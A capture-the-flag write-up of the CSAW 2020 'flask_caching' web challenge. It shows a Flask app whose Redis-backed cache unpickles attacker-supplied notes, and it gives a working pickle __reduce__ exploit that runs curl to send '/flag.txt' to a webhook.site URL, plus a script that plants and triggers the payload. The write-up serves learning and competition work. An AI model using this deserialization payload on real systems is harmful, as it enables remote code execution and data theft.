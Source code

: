 ```yaml
---
ctf: csaw
year: 2020
tags:
  - web
  - ace
---
```


# CSAW Qualifiers 2020

## Web

### flask_caching

We were presented with a simple Flask server,
we can see the code bellow (see the [full code](../assets/code/csaw/app.py)).

```python
#!/usr/bin/env python3

from flask import Flask
from flask import request, redirect
from flask_caching import Cache
from redis import Redis
import jinja2
import os

app = Flask(__name__)
app.config['CACHE_REDIS_HOST'] = 'localhost'
app.config['DEBUG'] = False

cache = Cache(app, config={'CACHE_TYPE': 'redis'})
redis = Redis('localhost')
jinja_env = jinja2.Environment(autoescape=['html', 'xml'])


@app.route('/', methods=['GET', 'POST'])
def notes_post():
    if request.method == 'GET':
        return '''
        <h4>Post a note</h4>
        <form method=POST enctype=multipart/form-data>
        <input name=title placeholder=title>
        <input type=file name=content placeholder=content>
        <input type=submit>
        </form>
        '''

    print(request.form, flush=True)
    print(request.files, flush=True)
    title = request.form.get('title', default=None)
    content = request.files.get('content', default=None)

    if title is None or content is None:
        return 'Missing fields', 400

    content = content.stream.read()

    if len(title) > 100 or len(content) > 256:
        return 'Too long', 400

    redis.setex(name=title, value=content, time=10)  # Note will only live for max 30 seconds

    return 'Thanks!'


# This caching stuff is cool! Lets make a bunch of cached functions.

@cache.cached(timeout=10)
def _test0():
    return 'test'
@app.route('/test0')
def test0():
    _test0()
    return 'test'

if __name__ == "__main__":
    app.run('0.0.0.0', 5000)
```

Analyzing the code, top to bottom we see that the server uses Redis as a cache, no big deal with that.
However, the way it is being used is weird.

Whenever a new note is being posted,
the "raw" operation is used,
however when using the test endpoints the calls are wrapped with the `@cache.cached` decorator.

Furthermore, the test endpoints always return `'test'` so even if we store something there we will not have direct feedback.

Following the decorator rabbit hole to the [`rediscache.py`](https://github.com/sh4nks/flask-caching/blob/9bd8365aa5bac9fb91e9e7ddc663ff087a97ab7a/flask_caching/backends/rediscache.py#L112-L115) we find the following:

```python
def get(self, key):
    return self.load_object(
        self._read_clients.get(self._get_prefix() + key)
    )
```

And following the `load_object`:

```python
def load_object(self, value):
    """The reversal of :meth:`dump_object`.  This might be called with
    None.
    """
    if value is None:
        return None
    if value.startswith(b"!"):
        try:
            return pickle.loads(value[1:])
        except pickle.PickleError:
            return None
    try:
        return int(value)
    except ValueError:
        # before 0.8 we did not have serialization.  Still support that.
        return value
```

Seeing `pickle.loads` means we have a winner.

According to the [documentation](https://docs.python.org/3/library/pickle.html):

> Warning
>
> The pickle module is not secure. Only unpickle data you trust.
>
> It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

Triggering the deserialization is easy,
just start the content with `!` and the cache will take care of the rest for use.

Now we just need to create a payload and find the cache key.

First, the cache key as it is the easiest part.

- Run `app.py` with a Redis instance (increase the cache timer if necessary).
- Send a GET request to one of the test endpoints.
- Use `redis-cli` to retrieve all stored keys with `redis-cli keys "*"`.
- You now know the key is `flask_cache_view//testN` where `N` is the test endpoint number.

We now move on to the pickle.

With a quick search we find that this is called pickle shellcode,
the idea is to serialize a pickle with executes code on deserialization.

I found [this GitHub gist](https://gist.github.com/0xBADCA7/f4c700fcbb5fb8785c14) which shows a "framework" to write "bad" pickles.

From there we write our exploit class:

```python
class Exploit():
    def __reduce__(self):
        return (os.system, ('curl https://webhook.site/<id>?flag=`cat /flag.txt`', ))
```

This works because `pickle` allows objects to decide how to be pickled using the `__reduce__` method,
hence we return a tuple of a `callable` and its arguments.

Using `os.system` we can launch an arbitrary process,
I used `curl` to send a request to `webhook.site` with the flag as a query parameter.

Now we just [automate](../assets/code/csaw/exploit.py) the whole process,
serializing the Exploit object to bytes,
send the bytes as a file and request the test endpoint.

```python
url = "http://web.chal.csaw.io:5000/"

class Exploit():
    def __reduce__(self):
        return (os.system, ('curl https://webhook.site/127d80d9-c737-44fe-95b3-c053849634a5?flag=`cat /flag.txt`', ))

bad_pickle = b"!" + pickle.dumps(Exploit())
requests.post(url,
    data={"title":"flask_cache_view//test0"},
    files={"content":bad_pickle})
requests.get(url + "/test0")
```